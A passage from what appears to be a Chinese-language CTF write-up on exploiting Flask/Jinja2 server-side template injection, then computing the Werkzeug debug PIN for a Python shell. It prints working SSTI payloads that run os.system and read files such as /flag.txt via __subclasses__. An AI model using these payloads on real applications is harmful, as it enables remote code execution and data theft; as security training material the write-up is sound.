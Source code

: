 ``{``{` config.from_pyfile('/tmp/evalcode') `}``}``

执行完毕后，恶意代码的结果就写到了/tmp/result文件中，所以第三步读取该文件的内容：

第三步：

``{``{` ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/result').read() `}``}``

在本场景中，只需要将第一步的恶意代码换成`import os;os.system('cat /flag.txt &gt; /tmp/result');`即可获取flag，没有太大难度，所以这里不再细表，不过我想提一句，虽然我用这种方法获取了flag，但可能这不是出题者的本意，注意上面的报错中是出现了过滤flag的代码的：

![](https://p3.ssl.qhimg.com/t01eb0372f221d8fa69.png)

只不过在buuctf的flag中没有ciscn字样所以该过滤没有起到应有的作用。在用这种方法获取flag后，我再次尝试获取pin码，最后成功了，下面重点介绍这种解法。



## 解法2：获取pin码打开python shell

在尝试这种方法之前，我仔细阅读了这两篇文章：

[https://www.cnblogs.com/HacTF/p/8160076.html](https://www.cnblogs.com/HacTF/p/8160076.html)

[https://xz.aliyun.com/t/2553#toc-2](https://xz.aliyun.com/t/2553#toc-2)

大佬的文章给了我很大帮助，但参照文中的payload计算的pin码却始终不对，于是我在本地搭建了flask环境，在一步步调试中找出来问题所在，最后算出了正确的pin码，来看一下我的过程吧。

首先在本地搭建flask环境，和题目一样，我用的的python版本为2.7，下面是app.py的源码：

```
import pdb
from flask import Flask

app = Flask(__name__)

@app.route("/")
def hello():
    return Hello

if __name__ == "__main__":
    pdb.set_trace()
    app.run(host="0.0.0.0",port=80,debug=True)
```

在其中加入了pdb调试语句，这样在进入app.run()语句之前程序会暂停等待调试指令，

![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)

根据[HacTF师傅文章](https://www.cnblogs.com/HacTF/p/8160076.html)中的提示，逐步调试找到了生成pin码的关键函数get_pin_and_cookie_name(),其源码如下：

```
def get_pin_and_cookie_name(app):
    """Given an application object this returns a semi-stable 9 digit pin
    code and a random key.  The hope is that this is stable between
    restarts to not make debugging particularly frustrating.  If the pin
    was forcefully disabled this returns `None`.

    Second item in the resulting tuple is the cookie name for remembering.
    """
    pin = os.environ.get("WERKZEUG_DEBUG_PIN")
    rv = None
    num = None

    # Pin was explicitly disabled
    if pin == "off":
        return None, None

    # Pin was provided explicitly
    if pin is not None and pin.replace("-", "").isdigit():
```
